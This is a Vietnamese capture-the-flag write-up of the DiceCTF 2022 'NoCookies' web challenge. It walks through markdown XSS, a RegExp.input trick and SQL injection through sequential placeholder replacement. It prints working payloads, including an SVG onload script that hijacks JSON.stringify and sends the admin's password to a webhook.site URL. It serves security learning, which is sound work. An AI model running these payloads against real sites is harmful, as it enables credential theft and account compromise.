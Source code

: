 ```yaml
---
title: NoCookies - DiceCTF2022
description: From DiceCTF2022
author: to^
date: 2022-04-08 13:07:00 +0700
categories: [WebSec, CTF, DiceCTF2022]
tags: [sqli, xss]     # TAG names should always be lowercase
img_path: /assets/img/
image:
 src: no_cookies/dicectf_logo.jpg
 alt: DiceCTF logo
 width: 1000
 height: 400
---
```

## _Link challenge_
<https://instancer.mc.ax/no-cookies>

<https://admin-bot.mc.ax/no-cookies>

## _Source code_
[Download](https://github.com/to016/to016.github.io/raw/main/assets/img/no_cookies/no-cookies.zip)

## _Sơ lược về trang web_
![overview](no_cookies/overview.png)
_overview_

- Sẽ có 2 chức năng: Register -> đăng kí account và create note -> tạo note
- Hoạt động không dựa trên cookie mà yêu cầu ta nhập lại username, password mỗi lần thực hiện một hành động nào đó.

Ở phần Create Note thì ta có 2 tùy chọn là Markdown hoặc là Plain.
![Create note](no_cookies/md_pl.png)
_create note option_

## _Phân tích_
### 1. XSS qua markdown option
Đọc qua source code thì thấy phần lớn các trang view.html, register.html đều thuộc dạng client side rendering
![markdown note handler](no_cookies/md_handler.png)
_markdown note hander_

Điều đáng chú ý ở đoạn code này là nếu note nhập vào có dạng `[blabla](test)` thì sẽ return thẻ a: 
`<a href = "test">blabla</a>`
Từ đây có thể dễ dàng khai thác XSS: ta dùng 2 thuộc tính autofocus và onfocus để trigger nó
```
<a href ="test" autofocus onfocus= "alert`1">
```
Điều đáng buồn là khi tạo note:
`(foo)[http://example.com" autofocus=autofocus onfocus="alert(password&#x29;]`
(ở đây escape `)` trở thành `&#x29;` để cho regex không làm mất đi `)` )
Gửi note và ấn view xuất hiện pop-up `undefined` 😟

Quay lại source code thấy rằng `const password`, được định nghĩa trong một anonymous arrow function và đoạn code được thực thi bên ngoài nó (đến từ HTML event handler)

Nhìn lại source, để ý cách validate password:
```js
const validate = (text) => {
return /^[^$']+$/.test(text ?? '');
}
```
Chỉ đơn giản là kiểm tra sao cho phải có tối thiểu 1 kí tự và không tồn tại `'` hoặc `$`
Mình tìm được một thứ thú vụ về [Regex](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/RegExp/input). Đại khái là: `RegExp.input` hoặc `RegExp.$_` sẽ trả về chuỗi match với regular expression.

Ví dụ:
```js
var re = /hi/g;
re.test('hi there!');
RegExp.input; // "hi there!"
re.test('foo'); // new test, non-matching
RegExp.$_; // "hi there!"
re.test('hi world!'); // new test, matching
RegExp.$_; // "hi world!"
```

Nhưng tất cả những `.replace()` call từ markdown parsing đã làm thay đổi giá trị của nó (overiding the password) vì vậy không thể khai thác thông qua markdown note -> chỉ còn lại con đường plain note.
### 2. XSS qua plain option
![database handler code1](no_cookies/db_handler1.png)
_database handler code1_

![database handler code2](no_cookies/db_handler2.png)
_database handler code2_

Ta có thể thấy trước khi chèn vào DB, note bị replace `<` và `>` gây khó khăn cho việc khai thác.

Nhưng `prepare function` đã giải quyết vấn đề này, hàm này đơn giản chỉ là replace **lần lượt** `:id, :username, :note, :mode` thành các giá trị tương ứng với nó.
```
{
id: "12345",
username: ":note",
note: ', :mode, 22, 0)-- ',
mode: '<img src=x onerror="alert(RegExp.input)">',
}
```

![sqli poc](no_cookies/sqli.png)
_sqli poc_

## _Khai thác_
![reponse](no_cookies/response.png)
_response_

![result](no_cookies/result.png)
_result_



## _Overwrite "document.querySelector" và "JSON.stringify"_
ở phần này mình sẽ đề cập tới một cách khai thác khác.

Cách này thì vẫn vận dụng sqli như cách trước để chèn xss note vào db nhưng khác ở chỗ xss note sẽ là:
```html
<svg><svg/onload="document.querySelector=function(){JSON.stringify=a=>fetch(`https://webhook.site/1e6c4248-b312-498b-93c3-073ffc762693?`+a.password),arguments.callee.caller()}">
```
Code này thực hiện việc rewrite lại hàm `document.querySelector` và `JSON.stringify`, sau đó gọi `arguments.callee.caller()`

![Exploit](no_cookies/exp.png)

- Line 59 thực hiện gán `innerHTML = Plain note` của ta đồng thời kích hoạt `onload` event của `svg` thực hiện việc ghi đè hàm `document.querySelector`.
- Line 60 gọi tới `document.querySelector` (lúc này là hàm mà ta đã định nghĩa lại): thực hiện ghi đè hàm 
`JSON.stringify` và đồng thời gọi tới `arguments.callee.caller()`.
- Có thể hiểu arguments.callee là chỉ hàm hiện tại đang thực thi -> `document.querySelector` và `arguments.callee.caller()` là hàm gọi tới nó, chính là cái `async ()` bao trọn tất cả code. Hay nói cách khác mục đích của `arguments.callee.caller()` là để chạy lại đoạn code từ 24 – 62 một lần nữa. Lúc này `JSON.stringify` nhận vào một object bao gồm password sẽ thực hiện fetch tới web hook của ta và boom flag!

> dice{curr3nt_st4t3_0f_j4v45cr1pt}
{: .prompt-info  }

## _Tham khảo_
<https://blog.bawolff.net/2022/02/write-up-for-dicectf-2022-nocookies.html>